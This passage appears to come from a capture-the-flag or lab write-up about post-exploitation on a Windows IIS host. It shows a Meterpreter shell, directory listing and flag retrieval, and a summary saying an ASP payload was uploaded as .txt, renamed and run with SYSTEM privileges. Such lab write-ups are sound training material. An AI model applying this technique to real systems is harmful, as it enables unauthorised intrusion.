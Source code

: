 #### Phase 4: Post-Exploitation Activities

**Step 5: System Information Gathering**
```bash
shell
```

**Meterpreter Shell Access:**
```
meterpreter > shell
Process 3268 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

**Step 6: Directory Navigation and Flag Discovery**
```bash
cd /
dir
type flag.txt
```

**Final Results:**
```
c:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of c:\

11/14/2018  06:56 AM    <DIR>          EFI
01/04/2021  07:22 AM                32 flag.txt
10/27/2020  06:45 AM    <DIR>          inetpub
05/13/2020  05:58 PM    <DIR>          PerfLogs
10/27/2020  02:18 PM    <DIR>          Program Files
10/27/2020  02:18 PM    <DIR>          Program Files (x86)
10/27/2020  02:21 PM    <DIR>          Users
10/27/2020  06:46 AM    <DIR>          Windows
               1 File(s)             32 bytes
               7 Dir(s)  16,326,242,304 bytes free

c:\>type flag.txt
d3aff16a801b4b7d36b4da1094bee345
```

#### Results Summary

**Key Findings from Lab:**
- **Successful Exploitation:** Module successfully uploaded and executed ASP payload
- **Payload Delivery:** 609,542 bytes uploaded as .txt, then moved to .asp
- **Shell Access:** Meterpreter session established with SYSTEM privileges
- **Target Compromise:** Full system access achieved
- **Flag Retrieved:** d3aff16a801b4b7d36b4da1094bee345
